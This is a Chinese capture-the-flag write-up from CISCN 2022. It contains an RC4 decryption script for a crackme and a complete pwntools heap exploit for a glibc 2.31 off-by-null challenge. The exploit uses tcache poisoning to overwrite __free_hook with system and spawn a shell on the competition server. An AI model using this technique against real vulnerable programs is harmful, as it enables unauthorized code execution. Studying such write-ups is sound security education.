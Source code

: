 ```yaml
---
title : "ciscn2022 华中赛区复赛部分wp"
layout: post
date: 2022-6-25
author: wsxk
comments: true
tags : [ctf_wp]
---
```


- [crackme2](#crackme2)
- [mediumduck](#mediumduck)
- [感想](#感想)


<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>


## crackme2<br>
简单的rc4加密<br>
```python
key = list(b"happygame")
key_len = len(key)
cypherBytes = []
keyBytes = []
flag = []
encrypt=[0xCD,0x52,0x74,0x7A,0x1E,0x8,0x8,0xE0,0x57,0x3B,0x18,0x99,0xAF,0x3D,0x1D,0x94,0x15,0x25,0x67,0x5B,0x64,0x53,0x1F,0x3B,0xDC,0xA2,0x46,0x36,0xD3,0xFD,0xBE,0x33]
for i in range(256):
    cypherBytes.append(i)
    keyBytes.append(key[i%key_len])

jump = 0
for i in range(256):
    jump = cypherBytes[i] + jump + keyBytes[i] & 0xFF
    tmp = cypherBytes[i]
    cypherBytes[i] = cypherBytes[jump]
    cypherBytes[jump] = tmp
print(cypherBytes,keyBytes)

i=0
v3_2 =0
for x in range(32):
    i = i+1&0xff
    tmp = cypherBytes[i]
    v3_2 = v3_2 + tmp + 0x88 & 0xFF
    t = (cypherBytes[v3_2] + tmp & 0xFF)
    cypherBytes[i] = cypherBytes[v3_2]
    cypherBytes[v3_2] = tmp
    flag.append(encrypt[x]^cypherBytes[t])

print(bytes(flag))
```

## mediumduck<br>
glibc2.31的off by null题型(个人感觉这次复赛的题目全tm是缝合怪？)<br>
先泄露heap基址和libc基址 ，然后overlap伪造一个堆并释放，使我们有能力控制tcache链表，将tcache链表设置成free_hook的地址，2.31并没有对此做check，但是要注意一点的是要额外free一个chunk，使得tcache记载的chunk为2，否则修改链表没有意义。<br>
```python
from pwn import *
io=remote("10.75.1.25",58011)
#io= process("./pwn",env={"LD_PRELOAD":"./libc.so.6"})
#io= process("./pwn")
#libc = ELF("./libc.so.6")

libc = ELF("libc.so.6")
def add():
    io.sendlineafter("Choice: ",str(1))

def delete(index):
    io.sendlineafter("Choice: ",str(2))
    io.sendlineafter("Idx: ",str(index))

def show(index):
    io.sendlineafter("Choice: ",str(3))
    io.sendlineafter("Idx: ",str(index))

def edit(index,size,content):
    io.sendlineafter("Choice: ",str(4))
    io.sendlineafter("Idx: ",str(index))
    io.sendlineafter("Size: ",str(size))
    io.sendafter("Content: ",content)

for i in range(15):
    add()
for i in range(7): #put into tcache
    delete(i)
add()
show(0)
io.recvline()
heap_base = u64((io.recv(6)).ljust(8,b"\x00"))-0x7a0
log.success("heap_addr:"+hex(heap_base))
# pause()
delete(0)
delete(8)
delete(9)
delete(7)

for i in range(10):
    add()
for i in range(7):
    delete(i)
show(8)
io.recvline()
libc_base = u64((io.recv(6)).ljust(8,b"\x00"))-0x1ecb80-0x60
log.success("libc:"+hex(libc_base))
libc.address= libc_base

edit(7,0x20,p64(0)+p64(0x1f1)+p64(heap_base+0x9a0)+p64(heap_base+0x9a0))
edit(8,0xf8,b"a"*0xf0+p64(0x1f0))
delete(9)

for i in range(7):
    add()
add()#put 9 into tcache
delete(0)
delete(9)
edit(7,0x20,p64(0)+p64(0x100)+p64(libc.sym["__free_hook"])+p64(heap_base+0x10))
add()#0
add()#9 free_hook
edit(9,8,p64(libc.sym["system"]))
edit(0,8,b"/bin/sh\x00")
delete(0)
io.interactive()
```

## 感想<br>
半年前来打比赛比现在做得多（😂，这题目质量，真的是不好评价，pwn题只有heap，其他啥都没有）
